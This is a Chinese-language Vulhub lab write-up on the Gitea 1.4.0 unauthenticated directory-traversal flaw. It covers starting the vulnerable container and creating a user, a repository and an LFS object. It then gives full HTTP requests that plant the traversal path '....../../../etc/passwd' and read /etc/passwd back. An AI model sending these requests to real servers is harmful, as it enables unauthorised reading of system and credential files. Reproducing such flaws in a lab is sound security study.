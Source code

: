 # Gitea 1.4.0 目录穿越导致命令执行漏洞

## 漏洞描述

Gitea是从gogs衍生出的一个开源项目，是一个类似于Github、Gitlab的多用户Git仓库管理平台。其1.4.0版本中有一处逻辑错误，导致未授权用户可以穿越目录，读写任意文件，最终导致执行任意命令。

参考链接：

- https://security.szurek.pl/gitea-1-4-0-unauthenticated-rce.html
- https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html

## 环境搭建

Vulhub执行如下命令启动启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问`http://you-ip:3000`，将进入安装页面，填写管理员账号密码，并修改网站URL，其他的用默认配置安装即可。（不要修改端口号）

安装完成后，新建一个用户`test`，创建一个公开的仓库，随便添加点文件进去（比如使用选定的文件和模板初始化仓库）：

![image-20220223204543045](./images/202202232045145.png)

然后，需要执行一次`docker-compose restart`重启gitea服务。（原因详见第二个参考链接）

> 如果不重启的话，session是存储在内存里的。只有第一次重启后，才会使用文件session，这一点需要注意。

## 漏洞复现

由于漏洞链整体利用比较复杂，我们只复现文件读取部分，剩余利用方法详见第二个参考链接。

打开gitea，找到刚才创建的公开项目，如`vulhub/repo`，发送如下数据包，添加一个Git LFS对象：

```
POST /test/repo.git/info/lfs/objects HTTP/1.1
Host: your-vps-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 153

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

![image-20220223205223472](./images/202202232052600.png)

然后，访问`http://your-ip:3000/vulhub/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth`，即可看到`/etc/passwd`已被成功读取：

```
GET /test/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth HTTP/1.1
Host: your-vps-ip:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20220223205318090](./images/202202232053193.png)
